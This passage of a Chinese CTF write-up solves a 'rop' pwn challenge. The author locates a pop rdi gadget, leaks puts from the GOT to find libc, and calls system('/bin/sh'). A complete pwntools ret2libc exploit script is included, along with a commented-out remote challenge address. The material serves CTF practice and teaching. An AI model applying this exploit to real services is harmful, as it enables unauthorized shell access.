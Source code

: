 用ida64打开

![ida](https://tva1.sinaimg.cn/large/0082zybpgy1gbxmry5oi0j315e0nw0zp.jpg)

找到合适的gadget

![gadget](https://tva1.sinaimg.cn/large/0082zybpgy1gbxmtis3qxj311i01q3zt.jpg)

覆盖返回地址到pop rdi，puts泄露libc一个函数真实地址，再计算libc地址，就可以得到system和/bin/sh地址了

写exp，用libcseacher直接计算偏移，再让程序返回main函数，再次覆盖返回地址，getshell

```python
#!/usr/bin/env python2  
# -*- coding: utf-8 -*-  
from pwn import *
from LibcSearcher import *

elf = ELF('./rop')
p = process('./rop')
#p = remote("47.103.214.163", 20003)
gdb.attach(p,'b *0x400540')

poprdi=0x400753
puts=elf.plt['puts']
puts_got=elf.got['puts']


p.recvuntil('\n')
payload = 'a'*88+p64(poprdi)+p64(puts_got)+p64(puts)
payload += p64(0x40065B)

p.sendline(payload)

puts=u64(p.recv(6).ljust(8,'\x00'))
libc = LibcSearcher("puts", puts)

libcbase=puts-libc.dump('puts')
system_addr=libcbase+libc.dump('system')
bin_sh=libcbase+libc.dump('str_bin_sh')

payload = 'a'*88+p64(poprdi)+p64(bin_sh)+p64(system_addr)
p.recvuntil('\n')
p.sendline(payload)

p.interactive()
```

# Crypto

![题目](https://tva1.sinaimg.cn/large/0082zybpgy1gbxmyyn6brj31ly0emmxe.jpg)
